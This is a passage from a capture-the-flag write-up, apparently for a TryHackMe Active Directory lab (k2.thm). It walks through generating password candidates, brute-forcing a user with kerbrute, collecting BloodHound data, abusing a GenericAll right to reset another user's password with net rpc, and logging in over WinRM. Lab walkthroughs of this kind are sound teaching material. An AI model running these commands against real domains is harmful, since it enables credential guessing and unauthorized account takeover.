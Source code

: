 ```python
		f.write(f"{i}{special_char}{base_pass}\n")
		f.write(f"{i}{base_pass}{special_char}\n")
		f.write(f"{special_char}{base_pass}{i}\n")

f.close()
```
{: file="james_password_gen.py"}

Running the script, we obtain a list of possible passwords. Using `kerbrute` to test them, we successfully retrieve the password for the `j.bold` user.

```console
$ kerbrute bruteuser --dc k2server.k2.thm -d k2.thm james_possible_passwords.txt j.bold
...
2024/09/28 03:33:19 >  [+] VALID LOGIN:  j.bold@k2.thm:[REDACTED]
```

While the credentials work, we cannot use them for `WinRM`.

```console
$ nxc smb k2server.k2.thm -u 'j.bold' -p '[REDACTED]'
SMB         10.10.231.218   445    K2SERVER         [*] Windows 10.0 Build 17763 x64 (name:K2SERVER) (domain:k2.thm) (signing:True) (SMBv1:False)
SMB         10.10.231.218   445    K2SERVER         [+] k2.thm\j.bold:[REDACTED]

$ nxc winrm k2server.k2.thm -u 'j.bold' -p '[REDACTED]'
SMB         10.10.231.218   445    K2SERVER         [*] Windows 10.0 Build 17763 (name:K2SERVER) (domain:k2.thm)
WINRM       10.10.231.218   5985   K2SERVER         [-] k2.thm\j.bold:[REDACTED]
```

### Shell as j.smith

Still, we can use them to collect data for **BloodHound** using `bloodhound-python`.

```console
$ bloodhound-python -ns 10.10.231.218 --dns-tcp -u 'j.bold' -p '[REDACTED]' --zip -c All -d k2.thm
```

Checking the data, we see that the `j.bold` user is a member of the `IT STAFF 1` group and members of the `IT STAFF 1` group have the `GenericAll` right over the `j.smith` user.

![Middlecamp Bloodhound](middlecamp_bloodhound.webp){: width="1000" height="300" }

We can use this to change the password for the `j.smith` user as follows.

```console
$ net rpc password 'j.smith' 'NewPassword123@' -U 'K2.THM'/'j.bold'%'[REDACTED]' -S 'k2server.k2.thm'
```

Confirming the password change, we also find that we can use `WinRM`.

```console
$ nxc winrm k2server.k2.thm -u 'j.smith' -p 'NewPassword123@'
SMB         10.10.231.218   445    K2SERVER         [*] Windows 10.0 Build 17763 (name:K2SERVER) (domain:k2.thm)
WINRM       10.10.231.218   5985   K2SERVER         [+] k2.thm\j.smith:NewPassword123@ (Pwn3d!)
```
